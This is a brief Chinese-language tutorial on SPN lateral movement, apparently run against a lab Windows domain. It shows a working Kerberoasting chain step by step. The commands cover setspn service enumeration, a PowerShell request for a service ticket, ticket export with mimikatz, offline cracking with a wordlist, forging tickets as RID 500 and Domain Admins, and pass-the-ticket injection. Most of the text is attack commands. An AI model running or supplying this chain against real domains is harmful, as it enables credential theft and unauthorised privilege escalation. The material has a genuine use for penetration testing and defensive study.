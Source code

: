 SPN横向

使用普通域用户上线cs，通过setspn扫描0day.org该域，通过该命令可以获取该域内主机名、角色、安装的服务等信息，进而可攻击拥有特定服务漏洞的机器。
Default
setspn -T 0day.org -q */*
setspn -T 0day.org -q */* | findstr "MSSQL"

请求的Kerberos服务票证的加密类型默认无设置情况下为AES256_HMAC_SHA1，该加密方式无法破解

当管理员将加密类型改为RC4_HMAC_MD5时，意味着服务帐户的NTLM密码哈希用于加密服务票证，可以通过以下命令判断使用哪种加密类型
Default
powershell Add-Type -AssemblyName System.IdentityModel
powershell New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/SqlServer.god.org:1433"

查看票证凭据发现当会话密钥类型为RC4_HMAC_MD5时，可进行票证导出破解

使用mimikatz导出票证
Default
mimikatz "kerberos::list /export"

下载破解脚本加载密码字典进行离线破解，需查找最容易包含弱密码的票据
Default
python tgsrepcrack.py pass.txt "1-40a00000-jack@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi"

或可以使用服务票据改写密码：
Default
python kerberoast.py -p Admin12345 -r 0DAY.ORG1.kirbi -w 0DAY.ORG.kirbi -u 500
python kerberoast.py -p Admin12345 -r 0DAY.ORG1.kirbi -w 0DAY.ORG.kirbi  -g 512

使用以下Mimikatz命令将新票据重新注入内存，以便通过Kerberos协议对目标服务执行身份验证。
Default
kerberos::ptt 0DAY.ORG.kirbi